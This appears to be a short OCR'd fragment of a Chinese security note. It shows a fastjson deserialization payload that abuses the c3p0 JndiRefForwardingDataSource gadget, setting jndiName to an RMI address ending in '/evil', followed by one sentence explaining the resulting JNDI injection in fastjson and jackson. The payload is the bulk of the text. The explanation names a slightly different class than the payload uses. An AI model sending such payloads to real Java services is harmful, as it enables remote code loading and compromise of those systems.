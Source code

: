 > {
>  "a":{
>      "@type":"java.lang.Class",
>      "val":"com.mchange.v2.c3p0.JndiRefForwardingDataSource"
>  },
>  "b":{
>      "@type":"com.mchange.v2.c3p0.JndiRefForwardingDataSource",
>      "jndiName":"rmi://127.0.0.1:1099/evil",
>      "loginTimeout":0
>  }
> }

在fastjson，jackson等环境下，调用JndiRefConnectionPoolDataSource类的jndiname，logintimeout属性setter方法，向jndiname传入恶意RMI服务器地址，然后调用logintimeout的setter方法使受害机去lookup设置好的jndiname中的恶意地址，造成JNDI注入。
